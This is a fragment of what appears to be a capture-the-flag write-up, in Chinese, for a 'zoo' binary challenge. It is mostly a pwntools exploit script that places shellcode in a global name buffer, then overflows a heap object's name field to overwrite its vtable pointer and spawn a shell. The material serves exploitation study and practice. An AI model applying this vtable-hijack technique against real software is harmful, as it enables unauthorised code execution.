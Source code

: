 ```cpp
};
```

在animal中，有一个虚表指针，用过覆盖覆盖指针到shellcode来getshell。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['terminator','-x','bash','-c']


cn = process('./zoo')

def ru(s):
	return cn.recvuntil(s)
def sl(s):
	return cn.sendline(s)

def add_dog(name,weight):
	sl('1')

	ru('Name : ')
	sl(name)
	ru('Weight : ')
	sl(str(weight))

def remove(idx):
	sl('5')

	ru('index')
	sl(str(idx))


nameofzoo=0x0000000000605420

ru('zoo')

sc = asm(shellcraft.linux.sh())
len_sc = len(sc)
sc += p64(nameofzoo)

sl(sc)

ru('choice')

add_dog('aaaa',0x1111)#0
add_dog('bbbb',0x2222)#1
remove(0)
add_dog('cccccccc'*9 + p64(nameofzoo+len_sc),0x3333)

sl('3')
sl('0')

#gdb.attach(cn)

cn.interactive()
```
